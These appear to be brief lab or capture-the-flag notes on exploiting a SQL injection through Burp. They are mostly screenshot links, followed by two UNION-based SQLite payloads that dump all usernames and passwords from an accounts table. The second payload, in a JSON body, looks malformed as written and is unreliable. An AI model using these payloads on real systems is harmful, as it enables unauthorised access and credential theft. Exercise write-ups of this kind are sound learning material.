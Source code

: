 
there was a bit of fiddling with the token

confirm sqli (or at least math :D)
![[burp1.png]]

Get version
![[burp2.png]]

Get tables
![[burp3.png]]

Get columns
![[burp4.png]]


Get usernames
![[burp5.png]]

Get passwords
![[burp6.png]]

Prettier output
![[burp7.png]]
```sql
2 UNION SELECT 'usernames: ' || group_concat(username,', ') || ' - ' || 'passwords: ' || group_concat(password,', ') FROM accounts -- -
```

```
{
    "id": "2 UNION SELECT sqlite_version() || ', [' || group_concat(tbl_name,', ') FROM sqlite_master WHERE type='table' || '], [usernames: ' || group_concat(username,', ') FROM accounts || ' - passwords: ' || group_concat(password,', ') FROM accounts || ']'"
}
```